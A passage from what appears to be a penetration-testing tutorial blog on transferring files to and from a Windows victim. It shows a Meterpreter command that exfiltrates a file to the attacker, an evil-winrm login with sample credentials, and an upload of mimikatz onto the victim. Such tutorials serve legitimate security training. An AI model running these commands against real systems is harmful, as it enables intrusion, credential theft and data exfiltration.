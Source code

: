 ## **Uploading Files onto the Victim Using Meterpreter**

Just the same way we used the **upload** command to download a file from our attacker onto the victim, we can also use **download** command to upload or exfiltrate files from the victim back to our attacker machine.

```
download C:\\temp\\supersecret.txt /opt/Juggernaut/JUGG-efrost/supersecret.txt
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-173.png)

And then back on our attacker machine, we can see that the file was successfully uploaded.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-174.png)

## **Downloading and Uploading Files Using evil-winrm**

As a final way to show how we can transfer files on a Windows victim, we will be using a tool called **[evil-winrm](https://github.com/Hackplayers/evil-winrm)**.

>  Relative paths are not allowed to use on download/upload. Use filenames on current directory or absolute path.

This example has a few specific requirements, but it is definitely worth mentioning.

Lets say that during our nmap scan at the beginning of the engagement we find that WinRM is running on port 5985. After some enumeration, we find a set of credentials for an account in the Remote Management Users group. With these two conditions being met, we can get a reverse shell on the victim using evil-winrm.

> evil-winrm can also be used in a pass-the-hash attack if you find a username + NTLM hash combo. For examples on pass-the-hash attacks, check out my post on the topic **[here](https://juggernaut-sec.com/pass-the-hash-attacks/)**.

```
evil-winrm -u backup_svc -p 'Makemoney1!' -i 172.16.1.10
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/03/image-114.png)

Now that we have a shell with evil-winrm, we can use the built-in download and upload features to transfer files.

## **Downloading Files onto the Victim Using evil-winrm**

Just like when we used meterpreter, evil-winrm also has a built-in **upload** feature that allows us to transfer files from our attacker machine onto the victim.

```
upload /opt/Windows/exploits/executables/mimikatz.exe C:\temp\mimikatz.exe
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-178.png)
